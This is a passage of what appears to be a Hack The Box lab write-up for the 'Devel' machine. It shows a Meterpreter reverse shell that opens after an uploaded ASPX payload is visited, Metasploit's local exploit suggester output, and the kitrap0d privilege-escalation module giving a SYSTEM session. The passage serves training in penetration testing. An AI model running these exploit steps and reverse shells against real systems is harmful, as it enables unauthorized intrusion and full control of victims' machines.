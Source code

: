 After visiting to http://10.129.152.23/h4xplo1t.aspx. I get the shell in metasploit.

```bash
[*] Meterpreter session 1 opened (10.10.14.61:4444 -> 10.129.152.23:49164) at 2021-05-28 12:41:14 +0000
 meterpreter > sysinfo
 Computer        : DEVEL
 OS              : Windows 7 (6.1 Build 7600).
 Architecture    : x86
 System Language : el_GR
 Domain          : HTB
 Logged On Users : 0
 Meterpreter     : x86/windows
```

Now, I’ll use local_exploit_suggestor for identifying exploits to get system shell. I will select the backgrounded session to identify the exploit.

```bash
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
 SESSION => 1
 msf6 post(multi/recon/local_exploit_suggester) > run
 [] 10.129.152.23 - Collecting local exploits for x86/windows… [] 10.129.152.23 - 37 exploit checks are being tried…
 [+] 10.129.152.23 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
 [+] 10.129.152.23 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
 [+] 10.129.152.23 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
 [+] 10.129.152.23 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
 [+] 10.129.152.23 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
 [+] 10.129.152.23 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
 [+] 10.129.152.23 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
 [+] 10.129.152.23 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
 [+] 10.129.152.23 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
 [+] 10.129.152.23 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
 [+] 10.129.152.23 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
 [+] 10.129.152.23 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
 [+] 10.129.152.23 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
 [*] Post module execution completed
```

I will use exploit/windows/local/ms10_015_kitrap0d, this exploit gives new session with system shell.

```bash
msf6 exploit(windows/local/ms10_015_kitrap0d) > set SESSION 2
 SESSION => 2
 msf6 exploit(windows/local/ms10_015_kitrap0d) > set LHOST 10.10.14.61
 LHOST => 10.10.14.61
 msf6 exploit(windows/local/ms10_015_kitrap0d) > run
 [] Started reverse TCP handler on 10.10.14.61:4444  [] Launching notepad to host the exploit…
 [+] Process 3204 launched.
 [] Reflectively injecting the exploit DLL into 3204… [] Injecting exploit into 3204 …
 [] Exploit injected. Injecting payload into 3204… [] Payload injected. Executing exploit…
 [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
 [] Sending stage (175174 bytes) to 10.129.152.23 [] Meterpreter session 3 opened (10.10.14.61:4444 ->    
 10.129.152.23:49165) at 2021-05-28 12:51:59 +0000
```